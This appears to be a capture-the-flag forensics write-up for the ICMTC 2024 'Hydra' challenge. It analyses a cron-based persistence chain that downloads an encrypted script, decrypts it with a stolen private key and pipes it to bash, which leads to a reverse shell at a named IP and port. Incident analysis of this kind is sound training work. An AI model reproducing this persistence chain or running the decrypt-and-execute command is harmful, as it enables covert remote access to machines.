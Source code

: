 # Description:
![image](https://github.com/Manlware/ICMTC_2024_CTF/assets/59315492/a308a823-1fda-49e0-ae44-aa363dcd26f0)

# Files:
## We have two files
- [var](https://github.com/Manlware/ICMTC_2024_CTF/blob/main/DFIR_Hydra_Solution/var.tar.gz)
- [etc](https://github.com/Manlware/ICMTC_2024_CTF/blob/main/DFIR_Hydra_Solution/etc.tar.gz)

# Steps of Solutions:
- **First: We downloaded the files on my kali machine and start to explore the content of var folder.**
  - We found interested file inside cron called **g33k**
    ![image](https://github.com/Manlware/ICMTC_2024_CTF/assets/59315492/9aef203a-cf63-4666-a24a-9e809ec3a13a)
  - After reading his content we found.
    ![image](https://github.com/Manlware/ICMTC_2024_CTF/assets/59315492/dde54344-a76f-4697-9a22-cc1634cca923)
      - ```
        0 23 * * 1 sudo systemctl start legit.service
        1 23 * * 1 sudo systemctl enable legit.service
        1 23 * * 1 sudo /etc/init.d/initial.sh
        ```
  - **The above is a cron job doing the following:**
    - **`0 23 * * 1 sudo systemctl start legit.service`**  
        At 23:00 (11:00 PM) every Monday, this command starts the **legit.service** using **systemctl**.
      
    - **`1 23 * * 1 sudo systemctl enable legit.service`**  
      At 23:01 (11:01 PM) every Monday, this command enables the **legit.service** to start at boot using **systemctl**.
      
    - **`1 23 * * 1 sudo /etc/init.d/initial.sh`**  
      At 23:01 (11:01 PM) every Monday, this command runs the script located at **/etc/init.d/initial.sh** with **sudo**.

- **Second: We strated to search for the service file "legit.service" on etc folder.**
  - Using `find -name "legit.service"` on etc folder we found the location of it and read its content.
    ![image](https://github.com/Manlware/ICMTC_2024_CTF/assets/59315492/4359b09e-38d8-4df7-b76e-ccb2112e73bd)
  - The service downloads a file called **encrypted.sh** from github repo and saves it as **shell.sh** on **/tmp**
  - We downloaded it and start to read its content but it was encrepted.
    ![image](https://github.com/Manlware/ICMTC_2024_CTF/assets/59315492/870311a8-dbf8-4503-8385-5a1cc7b30cfd)
- **So we have an encrepted shell I asked how can it be encrepted.**
  - So we started to read the another file found on the cron job **/etc/init.d/initial.sh**.
    ![image](https://github.com/Manlware/ICMTC_2024_CTF/assets/59315492/e5ad8fef-6dba-4550-8d94-460ba49fd3bd)
  - **`openssl rsautl -decrypt -inkey id_rsa.pem -in /tmp/shell.sh | bash`**
    Decrept the file using private key **id_rsa.pem** and execute its decrepted content using bash
- **So we need to find private key "id_rsa.pem".**
  - We used `find -name "id_rsa.pem"` on etc folder.
  - And found it on **./etc/.ssh/id_rsa.pem**.
    ![image](https://github.com/Manlware/ICMTC_2024_CTF/assets/59315492/17258a27-f5cc-4e29-bef3-5a8c59010d42)

- **The last step is to decrept the file "shell.sh"and get the IP and Port number.**
  - We used the command found above on **/etc/init.d/initial.sh** to decrept it.
    ![image](https://github.com/Manlware/ICMTC_2024_CTF/assets/59315492/b11d5b3b-aa1e-4db7-b5fb-d09431848046)
  - Dangerous Note: Don't use **| bash** found on file **/etc/init.d/initial.sh** cause if they listen on Port **52385** on IP **41.35.61.53** they will get a reverse shell on your machine ☠️😂 
 
## At the end the Flag was **EGCERT{41.35.61.53:52385}**

  

    

